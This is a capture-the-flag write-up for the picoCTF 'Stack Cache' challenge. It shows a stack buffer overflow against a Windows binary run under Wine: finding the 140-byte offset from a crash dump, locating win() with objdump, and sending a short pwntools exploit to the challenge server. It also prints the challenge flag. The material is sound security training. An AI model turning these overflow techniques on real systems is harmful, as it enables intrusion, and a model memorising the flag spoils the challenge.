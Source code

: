 # Stack Cache - 400 pts

### Key points

- Buffer Overflow

---

## **Contents**

- [Overview](#overview)
- [Solution](#solution)
- [Flag](#the-flag)

---

## Overview

### Description

> Challenge best paired with wine. I love windows. Checkout my exe running on a linux box. You can view source here. And connect with it using nc saturn.picoctf.net 61889

We are given a binary and its source code.

---

## Solution

Upon opening `vuln.c`, we see that the source code is very _very_ similar to the other buffer overflow challenges. The only difference being it is a Windows executable. You will find the solution is basically the same too.

Here's a quick breakdown of the source code:

`main()` calls `vuln()`

`vuln()` reads an input of buffer size 128 via `gets()`

`win()` opens and reads a file `flag.txt` and prints it, but `win()` is never called.

As with the basic buffer overflow challenges, we simply have to find the offset of the return instruction, and overwrite it with the address of `win()`.

---

### **Wine**

Wine (Wine Is Not an Emulator) is tool that allows Windows executables to be run on other operating systems, such as macOS and Linux.

If you don't have Wine, you can install it with

```
$ sudo apt install wine64
```

or

```
$ sudo apt install wine32
```

if you are running on a 32-bit operating system.

After installing, we can run the binary:

```
$ wine vuln.exe
Give me a string!
blah blah blah
```

...and it exits.

The buffer size is 128, so lets enter a little more than 128 bytes:

```
$ wine vuln.exe
Give me a string!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbccccddddeeeeffffgggghhhh
wine: Unhandled page fault on read access to 65656565 at address 65656565 (thread 0009), starting debugger...
002c:err:winediag:nodrv_CreateWindow Application tried to create a window, but no driver could be loaded.
002c:err:winediag:nodrv_CreateWindow Make sure that your X server is running and that $DISPLAY is set correctly.
Unhandled exception: page fault on read access to 0x65656565 in 32-bit code (0x65656565).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:006b GS:0063
 EIP:65656565 ESP:0064fe80 EBP:64646464 EFLAGS:00010246(  R- --  I  Z- -P- )
 EAX:0064fdf0 EBX:00230e74 ECX:0064fde0 EDX:7fa4a8d8
 ESI:0000001c EDI:0021ffc4
 ...
```

Looks like we succesfully overwrote the `eip` register with `0x65656565` (`'eeee'`). So we need to enter 140 bytes, then the address of `win()`.

Let's find the address of `win()` using objdump:

```
$ objdump -d vuln.exe | grep "win"
00401530 <_win>:
  401551:       75 18                   jne    40156b <_win+0x3b>
```

The address is `0x00401530`. Scripting time!

Send our payload to the remote server: (this specific challenge remote may take around 10 seconds to return a value because it needs to start Wine)

```
from pwn import *

payload = 140*b"a" + p32(0x00401530)

r = remote("saturn.picoctf.net", "61889")
r.sendline(payload)
result = str(r.recvall())
r.close()
```

Then parse the result and print our flag:

```
FLAG = result[result.index("picoCTF"):result.index("}") + 1]
print("Flag:", FLAG)
```

---

## Flag

> `picoCTF{Un_v3rr3_d3_v1n_cdac4d01}`

That's French for "A glass of wine", by the way.
